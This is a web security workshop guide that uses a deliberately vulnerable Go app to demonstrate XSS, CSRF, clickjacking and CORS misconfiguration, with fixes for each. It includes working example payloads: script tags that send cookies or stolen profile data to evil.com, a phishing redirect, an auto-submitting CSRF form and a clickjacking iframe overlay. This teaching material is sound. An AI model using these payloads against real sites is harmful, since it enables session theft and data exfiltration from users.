




# Web Security Workshop: XSS, CSRF, Clickjacking, and CORS

> **⚠️ This workshop consists of 4 independent sections (XSS / CSRF / Clickjacking / CORS). Consider splitting into multiple sessions based on available time.**

## Purpose

In this workshop, you will learn the mechanisms of and countermeasures against common Web application vulnerabilities: XSS (Cross-Site Scripting), CSRF (Cross-Site Request Forgery), Clickjacking, and CORS (Cross-Origin Resource Sharing) misconfigurations. You will use an intentionally vulnerable application to experience these attacks and learn how to defend against them.

## Goals

- Understand the mechanisms of XSS (Stored/Reflected) and verify JavaScript execution.
- Understand the mechanism of CSRF and verify how unauthorized requests are sent on behalf of an authenticated user.
- Understand the mechanism of Clickjacking and verify visual deception techniques using iframes.
- Understand the mechanism of data leakage due to CORS misconfigurations and verify the importance of proper origin control.
- Understand defensive measures (escaping, tokens, header settings, CORS settings) for each vulnerability.

---

## Actors and Attack Flows

### XSS (Cross-Site Scripting)

An attacker embeds a malicious script into a web page and executes it in other users' browsers.



### CSRF (Cross-Site Request Forgery)

Tricks an authenticated user into sending an unintended request (like changing a password or email address) to a vulnerable site.



### Clickjacking

Uses a transparent iframe to make the user click a button different from the one they intended.



### Cross-Origin Data Leakage (CORS Misconfiguration)

A vulnerability where an attacker can obtain a user's sensitive data due to CORS misconfigurations (specifically Origin Reflection).



**Why does the attack succeed?**

CORS does not control "whether to send a request", but rather the browser controls "whether to allow JavaScript to read the response returned from the server".

1. **Automatic sending of Cookies (Browser spec independent of CORS)**: Browsers automatically attach and send cookies stored for the request-destination domain (`localhost:8080`), even if the request is from an attacker's site.
2. **Authentication establishment**: The server verifies the arrived Cookie, authenticates the user, and includes sensitive data in the response.
3. **Abuse of CORS misconfiguration**:
   - **Origin Reflection**: Since the server returns the `Origin` header from the request as-is, the browser falsely recognizes the access from the attack site as "allowed".
   - **Access-Control-Allow-Credentials: true**: Because this is set, the browser determines that "it is safe to pass the authenticated response to the attacker's JavaScript" and allows reading the response.

In other words, **CORS misconfiguration is a state where the "breakwater for preventing others from stealing and viewing sensitive information obtained through Cookies that were sent anyway" has been broken by oneself.**

---

## Anti-patterns and Solutions

| Vulnerability | ❌ Dangerous Implementation | ✅ Secure Countermeasure |
| :--- | :--- | :--- |
| **XSS** | Output user input as-is in HTML without escaping | Escape output appropriately, set CSP |
| **CSRF** | Rely solely on Cookies for authentication | Use CSRF tokens, set SameSite attribute |
| **Clickjacking** | Allow iframe embedding from external sites | Set `X-Frame-Options` or CSP `frame-ancestors` |
| **CORS Misconfig** | Origin Reflection (returning the Origin header as-is) | Allow only specific origins from an allowlist |

---

## Architecture

In this workshop, two Go applications run on different ports. The "Victim Site" and "Attacker Site" have different origins, allowing for a realistic demonstration of CSRF and CORS attacks.

### Directory Structure

```text
infra/assets/web_security/
├── victim/
│   ├── main.go         # Victim Site (port 8080)
│   └── go.mod
└── attacker/
    ├── main.go         # Attacker Site (port 8081)
    └── go.mod
```

---

## Preparation

### 1. Start the Applications

Open two terminals and start each server.

```bash
# Terminal 1: Victim Site
cd infra/assets/web_security/victim
go run main.go

# Terminal 2: Attacker Site
cd infra/assets/web_security/attacker
go run main.go
```

### 2. Verification

Access `http://localhost:8080` in your browser.

---

## Workshop Steps

### STEP 1: Stored XSS - Script Storage and Execution

Save a script in a board-like function and verify it executes every time the page is opened.

**Instructions:**

1. Navigate to the `Stored XSS Demo` page.
2. First, click the `Login` button to set the session Cookie.
3. Enter the following script into the input field and submit:

   ```html
   <script>alert('XSS: your cookie: ' + document.cookie);</script>
   ```

4. Verify that the page reloads and the alert displays the Cookie value.
5. Refresh the page and verify that the alert is displayed again (because it is saved in the database).

**What is happening?**

```text
User Input: <script>alert(...)</script>
          ↓ (Saved without escaping)
Database:   <script>alert(...)</script>
          ↓ (Output directly to HTML)
Browser:    Recognized as <script> tag → JavaScript executed

Real-world attack script:
  new Image().src="https://evil.com/steal?c="+document.cookie

  → Cookie is sent to the attacker's server.
  → Why use an Image object? It has fewer restrictions than fetch/XMLHttpRequest
    and can send data externally just by requesting a URL.
```

**Vulnerable Code (victim/main.go:77-80):**

```go
for _, c := range data.Comments {
    // ❌ Vulnerability: Output user input directly without escaping
    fmt.Fprintf(w, "<li>%s</li>", c)
}
```

**Attack Variations:**

- `<script>document.location='http://evil.com?c='+document.cookie;</script>` → Cookie theft (noticeable as it redirects)
- `<script>new Image().src="https://evil.com/steal?c="+document.cookie;</script>` → Cookie theft (less noticeable)
- `<script>window.top.location='http://fake-bank.com';</script>` → Redirection to a phishing site

---

### STEP 2: Reflected XSS - Attack via URL

Verify that a script contained in URL parameters is reflected directly on the page.

**Instructions:**

1. Navigate to the `Reflected XSS Demo` page.
2. Access the URL with a script appended to the end:

   ```text
   http://localhost:8080/xss/reflected?q=
   ```

   *Note: Many modern browsers automatically block `<script>` tags in Reflected XSS. Using `` often bypasses these filters.*

**What is happening?**

```text
URL Parameter: q=
            ↓ (Embedded in HTML without escaping)
HTML Output:   <p>0 results found for "".</p>
            ↓ (Interpreted as HTML by browser)
            →  fails to load src=x
            → onerror event handler executes → JavaScript runs

*Note: While <script> tags might be blocked by browser XSS filters,
        can often bypass them.
```

**Vulnerable Code (victim/main.go:84-89):**

```go
func reflectedXSSHandler(w http.ResponseWriter, r *http.Request) {
    q := r.URL.Query().Get("q")
    // ❌ Vulnerability: Embed query parameter directly into HTML
    fmt.Fprintf(w, "<h1>Search Results</h1><p>0 results found for \"%s\".</p>", q)
}
```

**Attack Flow (Example: Phishing Email):**

```text
Attacker-crafted URL:
http://victim-site.com/search?q=

↓ User clicks link in an email

Victim's Cookie is sent to the attacker's site
```

---

### STEP 3: CSRF (Cross-Site Request Forgery) - Impersonating Authenticated Users

Tricks an authenticated user into sending an unintended request.

**Instructions:**

1. Click `Login` to set the session Cookie.
   - Verify that `session_id` is set in DevTools → Application → Cookies.
2. Return to the `Victim Site` top page and confirm the current email is `victim@example.com`.
3. Click the `CSRF Attack Page (port 8081)` link to go to the attacker's site (different origin: localhost:8081).
4. Click the "Claim Prize" button on the attacker's site.
5. Return to the top page of the victim site and verify that the email address has been changed to `hacker@evil.com`.

**What is happening?**

```text
[Attacker Site HTML]
<form action="http://localhost:8080/update-email" method="POST">
    <input type="hidden" name="email" value="hacker@evil.com">
    <input type="submit" value="Claim Prize">
</form>

↓ User clicks the button

Browser automatically attaches the Cookie:
POST /update-email HTTP/1.1
Host: localhost:8080
Cookie: session_id=secret-session-123  ← Automatically attached!
Content-Type: application/x-www-form-urlencoded

email=hacker@evil.com

↓ Server-side processing

"Authentication" via Cookie succeeds → Email address is changed
```

**Why does the attack succeed?**

1. **Browser Cookie Specification**: Cookies are automatically attached to requests to the same origin.
2. **Absence of SameSite Attribute**: In the demo, the `SameSite` attribute is not set, so Cookies are sent even for POST requests from other sites.
3. **Missing CSRF Token**: There is no mechanism to verify that the request was truly intended by the user.

**Auto-submission Version (Using JavaScript):**

```html
<!-- Automatically submits on page load -->
<body onload="document.forms[0].submit()">
    <form action="http://victim.com/update-email" method="POST">
        <input type="hidden" name="email" value="hacker@evil.com">
    </form>
</body>
```

---

### STEP 4: Clickjacking - Operation Hijacking via Transparent iframes

Uses a transparent iframe to make the user click a button different from the one they intended.

**Instructions:**

1. Click `Clickjacking Attack Page` under `Attacker Site (port 8081)`.
2. A "Free Donuts Available!" page is displayed.
3. Notice the faintly visible "Follow @hacker" page from the victim site behind the "GET DONUTS" button (semi-transparent for demonstration).
4. When you click "GET DONUTS", you are actually clicking the hidden "Follow" button.
5. You end up following @hacker without intending to.

**What is happening?**

```css
/* Attacker Site CSS */
#victim-frame {
    position: absolute;  /* Absolute positioning */
    top: 0;
    left: 0;
    opacity: 0.4;        /* In a real attack, this would be 0.0 (fully transparent) */
    z-index: 2;          /* Placed in front of the background */
}

#fake-page {
    position: absolute;
    z-index: 1;          /* Background layer */
    /* "Free Donut" fake page */
}
```

```text
┌─────────────────────────────────────┐
│    [Attacker Fake Page - z-index: 1]│
│  🍩 Free Donuts Available!          │
│                                     │
│     ┌───────────────────────────┐   │
│     │ [Victim Site iframe]      │   │
│     │ z-index: 2 (Foreground)   │   │
│     │ Follow @hacker            │   │
│     │ [Follow] Button           │   │ ← Transparent/Semi-transparent
│     └───────────────────────────┘   │
│                                     │
│         [GET DONUTS] Button         │ ← Fake button
│         (Actually above iframe's)   │
└─────────────────────────────────────┘
```

**Vulnerable Code (victim/main.go:119-139):**

```go
func followHandler(w http.ResponseWriter, r *http.Request) {
    // ❌ Vulnerability: Missing X-Frame-Options header
    // This allows the page to be displayed within an iframe on other sites

    fmt.Fprintf(w, `
        <h1>Follow @hacker</h1>
        <button>Follow</button>
    `)
}
```

**Button Alignment:**

```javascript
// Attackers identify the position of the victim's button and adjust the fake button
// padding-top: 105px → Matches the position of the victim's button
```

---

### STEP 5: CORS Misconfiguration (Cross-Origin Data Leakage) - Data Theft from Other Sites

If an API performs Origin Reflection (returning the request's Origin header as-is), an attacker site can send requests with Cookies and obtain the user's sensitive data.

**Instructions:**

1. Navigate to the Victim Site (port 8080) and click `Login` to set the session Cookie.
2. Click the `CORS Attack Page (port 8081)` link.
3. Click the "Verify Account" button.
4. Verify that the name, email, and API key are stolen from `/api/profile` of the victim site and displayed on the screen.

**What is happening?**

```text
[Attacker Site JavaScript]
fetch('http://localhost:8080/api/profile', {credentials: 'include'})
  .then(r => r.json())
  .then(data => { /* Display data */ })

↓ Browser sends Preflight request

OPTIONS /api/profile HTTP/1.1
Host: localhost:8080
Origin: http://localhost:8081

↓ Victim Server response (❌ Vulnerability: Origin Reflection)

HTTP/1.1 204 No Content
Access-Control-Allow-Origin: http://localhost:8081   ← Origin Reflection!
Access-Control-Allow-Credentials: true

↓ Browser sends actual request

GET /api/profile HTTP/1.1
Host: localhost:8080
Origin: http://localhost:8081
Cookie: session_id=secret-session-123  ← Sent because credentials: 'include'!

↓ Victim Server response

HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://localhost:8081   ← Origin Reflection
Access-Control-Allow-Credentials: true
Content-Type: application/json

{"name":"Alice Victim","email":"victim@example.com","secret":"my-secret-api-key-abc123"}

↓ Browser CORS check

Origin matches → Allowed
→ Attacker site's JavaScript can read the response!
```

**Vulnerable Code (victim/main.go:141-):**

```go
func profileHandler(w http.ResponseWriter, r *http.Request) {
    // ❌ Vulnerability: Origin Reflection
    origin := r.Header.Get("Origin")
    w.Header().Set("Access-Control-Allow-Origin", origin)
    w.Header().Set("Access-Control-Allow-Credentials", "true")

    // Returns authenticated user's sensitive data
    json.NewEncoder(w).Encode(profile)
}
```

**Why does the attack succeed?**

1. **User is logged in**: The Cookie is stored in the browser.
2. **Origin Reflection**: The server returns the Origin header without validation, allowing any origin.
3. **Credentials Allowed**: `Access-Control-Allow-Credentials: true` permits sending Cookies.
4. **Preflight Pass**: The same reflection occurs for OPTIONS requests.

**In a real attack:**

```text
The attacker sends stolen data to their own server:
new Image().src='https://evil.com/collect?d='+JSON.stringify(data)
```

**Comparison: `Access-Control-Allow-Origin: *` vs `Origin Reflection`**

| Feature | ACAO: * | Origin Reflection |
| :--- | :--- | :--- |
| **Allowed Target** | Everyone | Everyone (granted individually) |
| **Credentials (Cookie)** | Not allowed | Allowed (Extremely Dangerous) |
| **Primary Use Case** | Public APIs, static files | Debugging during development (Don't use in production!) |
| **Security** | Relatively safe (public data only) | Vulnerability (source of data leaks) |

---

## Implementation of Countermeasures

### XSS Prevention

#### 1. HTML Escaping

Go's `html/template` package escapes variables by default.

```go
// ❌ Dangerous: Print without escaping
fmt.Fprintf(w, "<li>%s</li>", comment)

// ✅ Secure: Use html/template (automatic escaping)
import (
    "html/template"
    "net/http"
)

func storedXSSHandler(w http.ResponseWriter, r *http.Request) {
    // Template definition ({{.}} is automatically escaped)
    tmpl := template.Must(template.New("comments").Parse(`
        <h1>Comments List</h1>
        <ul>
        {{range .Comments}}
            <li>{{.}}</li>  ← Special characters in {{.}} are automatically converted to &lt; &gt; etc.
        {{end}}
        </ul>
    `))

    tmpl.Execute(w, data)
}
```

**Mechanism of Escaping:**

```text
Input:  <script>alert('XSS')</script>
        ↓ Automatic Escaping
Output: &lt;script&gt;alert('XSS')&lt;/script&gt;
        ↓ Browser Display
Screen: <script>alert('XSS')</script> (Displayed as text; script does not execute)
```

#### 2. HttpOnly Cookie

```go
http.SetCookie(w, &http.Cookie{
    Name:     "session_id",
    Value:    "secret-session-123",
    Path:     "/",
    HttpOnly: true,  // ✅ Prevents JavaScript access to Cookie
    Secure:   true,  // ✅ Send only over HTTPS
    SameSite: http.SameSiteStrictMode,  // ✅ Also helps against CSRF
})
```

#### 3. Content Security Policy (CSP)

```go
func main() {
    mux := http.NewServeMux()

    // Middleware to set CSP header
    mux.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
        // ✅ Disallow execution of inline scripts
        w.Header().Set("Content-Security-Policy",
            "default-src 'self'; " +
            "script-src 'self' 'unsafe-inline'; " +  // Removing unsafe-inline is recommended
            "style-src 'self' 'unsafe-inline'")

        // ... Handler logic
    })
}
```

---

### CSRF Prevention

#### 1. Implementation of CSRF Tokens

A CSRF token is a mechanism to verify "whether the user actually saw the form and submitted it."

**Metaphor:**

```text
[Analogy of a Bank Transaction]

Bank: "Please sign this certificate." (Issue token)
Customer: Signs the certificate.
Bank: Verifies the signature → Confirms it's the customer's own operation ✓

Attacker: Tries to perform the transaction by impersonating the customer.
Bank: "Where is the certificate?"
Attacker: "I don't have it..."
Bank: "Unauthorized access!" ✗
```

**Step-by-Step Implementation:**

**Step 1: Issue a token on login**

```go
// Server-side memory (In production, use Redis, etc.)
var csrfTokens = make(map[string]string) // session_id -> token

// At login
sessionID := "user-session-123"
token := "abc123xyz456"  // Generate a random string

// Server records: "The correct token for this user is abc123xyz456"
csrfTokens[sessionID] = token

// Send the token to the browser via Cookie
http.SetCookie(w, &http.Cookie{
    Name:  "csrf_token",
    Value: "abc123xyz456",  // ← Correct token
})
```

**Step 2: Embed the token in the form**

```html
<!-- HTML form generated by the server -->
<form method="POST" action="/update-email">
    <!-- Embed the correct token in a hidden field -->
    <input type="hidden" name="csrf_token" value="abc123xyz456">
    
    <input name="email" placeholder="New email address">
    <button>Update</button>
</form>
```

**Check in DevTools:**

```html
<!-- What the user sees in the browser -->
<input type="hidden" name="csrf_token" value="abc123xyz456">
                           ^^^^^^^^^^^^^^
                           Attacker cannot see this (same as Cookie)
```

**Step 3: Normal request (When the user operates)**

```text
User clicks the "Update" button
         ↓
POST /update-email HTTP/1.1
Cookie: session_id=user-session-123
       csrf_token=abc123xyz456
Body: csrf_token=abc123xyz456&email=new@example.com
         ↓
Server Verification:
  - Token from Cookie: abc123xyz456
  - Token from Form:   abc123xyz456
  - Match! ✓ → Continue processing
```

**Step 4: Attacker's request (CSRF Attack)**

```html
<!-- Attacker Site HTML -->
<form action="http://victim.com/update-email" method="POST">
    <input type="hidden" name="email" value="hacker@evil.com">
    <!-- ← No token! The attacker cannot know the correct token -->
</form>
```

```text
Request sent from the attacker's site:
POST /update-email HTTP/1.1
Cookie: session_id=user-session-123
       csrf_token=abc123xyz456  ← Cookie is automatically sent
Body: email=hacker@evil.com      ← No token!
      ^^^^^^^^^^^^^^^^^^^^^^^^
      No csrf_token parameter, or it's an arbitrary value
         ↓
Server Verification:
  - Token from Cookie: abc123xyz456
  - Token from Form:   (None or "dummy")
  - Mismatch! ✗ → 403 Forbidden
```

**Implementation Code:**

```go
// Token generation (Using cryptographically secure random numbers)
func generateCSRFToken() string {
    b := make([]byte, 16)  // 128-bit random value
    rand.Read(b)
    return hex.EncodeToString(b)
}

// Issue token on login
func loginHandler(w http.ResponseWriter, r *http.Request) {
    sessionID := "user-session-123"
    token := generateCSRFToken()  // Example: "a1b2c3d4e5f6..."

    // Record on server side
    csrfTokens[sessionID] = token

    // Send via Cookie
    http.SetCookie(w, &http.Cookie{
        Name:  "csrf_token",
        Value: token,
    })
}

// Embed token when displaying form
func showUpdateEmailForm(w http.ResponseWriter, r *http.Request) {
    token := getCSRFTokenForSession(r)  // Retrieve session token

    fmt.Fprintf(w, `
        <form method="POST">
            <input type="hidden" name="csrf_token" value="%s">
            <input name="email">
            <button>Update</button>
        </form>
    `, token)
}

// Verification of POST request
func updateEmailHandler(w http.ResponseWriter, r *http.Request) {
    if r.Method == http.MethodPost {
        // Token submitted from the form
        formToken := r.FormValue("csrf_token")
        
        // Correct token stored in the session
        sessionID := getSessionID(r)
        expectedToken := csrfTokens[sessionID]

        // Comparison
        if formToken != expectedToken {
            http.Error(w, "Invalid CSRF token", http.StatusForbidden)
            return  // ✗ Block the attack
        }

        // ✓ Token match → Continue processing
        updateEmail(r.FormValue("email"))
    }
}
```

**Key Points:**

1. **Unpredictable Token**: Generated with cryptographically secure random numbers.
2. **Unique per Session**: Different tokens for different users.
3. **Expiration**: Should expire after a certain period (recommended).
4. **One-time Use**: Invalidate the token once used (optional).

#### 2. SameSite Cookie

```go
http.SetCookie(w, &http.Cookie{
    Name:     "session_id",
    Value:    "secret-session-123",
    SameSite: http.SameSiteStrictMode,  // ✅ Sends Cookie only for requests from the same site
    // SameSite levels:
    //   - Strict: Completely restricted to same-site (not sent even on top-level navigation)
    //   - Lax:    Sent for top-level navigation (GET, etc.) (Recommended)
    //   - None:   Always sent (Vulnerable)
})
```

**Effect of SameSite:**

```text
[With SameSite=Lax]

✗ POST from attacker site → Cookie not sent → Authentication fails
✓ POST within same site   → Cookie sent     → Authentication succeeds
```

---

#### 3. Proper Configuration of CORS (Cross-Origin Resource Sharing)

**What is CORS?**

CORS (Cross-Origin Resource Sharing) is a mechanism where the browser controls access to resources from "different origins (domain, port, protocol)."

**Origin Examples:**

```text
https://example.com:443/api/data
       ^^^^^^^^^^^^^^ ^^^
       Origin         Path

Same Origin:
  ✓ https://example.com/api/data
  ✓ https://example.com:443/api/data

Different Origin:
  ✗ https://api.example.com/api/data  (Different domain)
  ✗ http://example.com/api/data       (Different protocol)
  ✗ https://example.com:8080/api/data (Different port)
```

**Why is CORS Necessary?**

Browsers have a security mechanism called **Same-Origin Policy (SOP)**, which restricts requests to different origins. CORS is a mechanism to safely relax this restriction.

**What Happens Without CORS?**

```text
[User is visiting a malicious site]

Malicious Site: evil.com
<script>
  // Access the user's Gmail to steal emails
  fetch('https://mail.google.com/api/messages')
    .then(r => r.json())
    .then(data => steal(data));  // Data theft
</script>

↓ Without Same-Origin Policy

Browser: "Allowing request."
→ Attacker can access the user's private data!
```

**What Happens With CORS?**

```text
Request from the malicious site:
GET /api/messages HTTP/1.1
Host: mail.google.com
Origin: https://evil.com  ← Source origin

↓ Server checks CORS policy

Server: "Requests from evil.com are not allowed."
Access-Control-Allow-Origin: (None)

↓ Browser blocks the response

Browser: "CORS Error: evil.com cannot access this resource."
→ JavaScript cannot read the response ✓ Secure
```

**Mechanism of CORS:**

```text
1. Browser adds Origin header to the request
   Origin: https://example.com

2. Server adds Access-Control-Allow-Origin to the response
   Access-Control-Allow-Origin: https://example.com  (Allowed)
   Access-Control-Allow-Origin: *                        (Allow all)

3. Browser verifies the match
   - Match → Passes response to JavaScript
   - Mismatch → Throws error
```

**Vulnerability Due to CORS Misconfiguration:**

```go
// ❌ Dangerous Implementation: Allow all origins
func apiHandler(w http.ResponseWriter, r *http.Request) {
    // API can be called from any site
    w.Header().Set("Access-Control-Allow-Origin", "*")
    
    // Returns sensitive data
    json.NewEncoder(w).Encode(sensitiveData)
}
```

```html
<!-- Attacker can call API from another site -->
<!-- evil.com -->
<script>
  fetch('https://victim.com/api/sensitive-data')
    .then(r => r.json())  // No CORS error!
    .then(data => sendToAttacker(data));
</script>
```

**Secure CORS Configuration:**

```go
// ✅ Secure Implementation: Allow only specific origins
func apiHandler(w http.ResponseWriter, r *http.Request) {
    origin := r.Header.Get("Origin")
    
    // Only allow origins in the allowlist
    allowedOrigins := map[string]bool{
        "https://example.com":       true,
        "https://www.example.com":   true,
    }
    
    if allowedOrigins[origin] {
        w.Header().Set("Access-Control-Allow-Origin", origin)
        // If including credentials (Cookies, etc.)
        w.Header().Set("Access-Control-Allow-Credentials", "true")
    }
    
    // "*" cannot be used if credentials are included
    // Access-Control-Allow-Origin: *  ✗ Dangerous
    // Access-Control-Allow-Origin: https://example.com  ✓ Secure
}

// Handling Preflight Requests
func corsMiddleware(next http.HandlerFunc) http.HandlerFunc {
    return func(w http.ResponseWriter, r *http.Request) {
        origin := r.Header.Get("Origin")
        
        if origin == "https://example.com" {
            w.Header().Set("Access-Control-Allow-Origin", origin)
            w.Header().Set("Access-Control-Allow-Methods", "GET, POST, PUT, DELETE")
            w.Header().Set("Access-Control-Allow-Headers", "Content-Type, Authorization")
            w.Header().Set("Access-Control-Allow-Credentials", "true")
            w.Header().Set("Access-Control-Max-Age", "3600")
        }
        
        // Respond early to preflight requests (OPTIONS method)
        if r.Method == http.MethodOptions {
            w.WriteHeader(http.StatusNoContent)
            return
        }
        
        next(w, r)
    }
}
```

**Key CORS Headers:**

| Header | Description | Vulnerability |
| :--- | :--- | :--- |
| `Access-Control-Allow-Origin` | Allowed origin | Use `*` cautiously |
| `Access-Control-Allow-Credentials` | Allow sending credentials | Cannot be used with `*` |
| `Access-Control-Allow-Methods` | Allowed HTTP methods | Only necessary ones |
| `Access-Control-Allow-Headers` | Allowed request headers | Only necessary ones |
| `Access-Control-Max-Age` | Cache duration for preflight | Set an appropriate value |

**Preflight Requests (OPTIONS Method):**

```text
For complex requests (PUT, DELETE, custom headers, etc.):

1. Browser sends OPTIONS request first
   OPTIONS /api/data HTTP/1.1
   Origin: https://example.com
   Access-Control-Request-Method: PUT

2. Server returns permission
   Access-Control-Allow-Origin: https://example.com
   Access-Control-Allow-Methods: GET, PUT, DELETE

3. Browser sends actual PUT request
   PUT /api/data HTTP/1.1
   Origin: https://example.com
```

**Relationship Between CORS and CSRF:**

```text
[Before CORS]

fetch() from attacker site → Request can be sent
                          → Cookie automatically attached
                          → Response can be read
                          → CSRF attack is easy

[With CORS]

fetch() from attacker site → Request can be sent
                          → Cookie automatically attached (Outside CORS)
                          → Response is blocked
                          → Attacker cannot read response

*Note: Even if the response cannot be read, side effects (POST/DELETE, etc.) occur.
   → CSRF tokens and SameSite Cookies are still necessary.
```

---

### Difference in Protection Purpose Between CSRF and CORS

**Fundamental Differences:**

| | **CSRF** | **CORS** |
| :--- | :--- | :--- |
| **Primary Target** | **Request Submission** | **Response Reading** |
| **Protection Target** | **Server-side** (preventing unintended operations) | **Client-side** (preventing data theft) |
| **Attack Nature** | Impersonation to **perform actions** | Data **theft** from other sites |
| **Browser's Role** | Auto-attaches Cookies (enables attacks) | Blocks response reading (provides defense) |

**CSRF Protection Purpose:** Verify "who sent the request"

```text
Attacker: Wants to send a "change password" request while impersonating the user
         ↓
Server: Needs to verify if it's truly the user's own operation
         ↓
CSRF Token: A secret value that only a user who viewed the form possesses
         ↓
Result: Attacker site doesn't have the token → Request rejected ✓
```

**CORS Protection Purpose:** Control "who can read the response"

```text
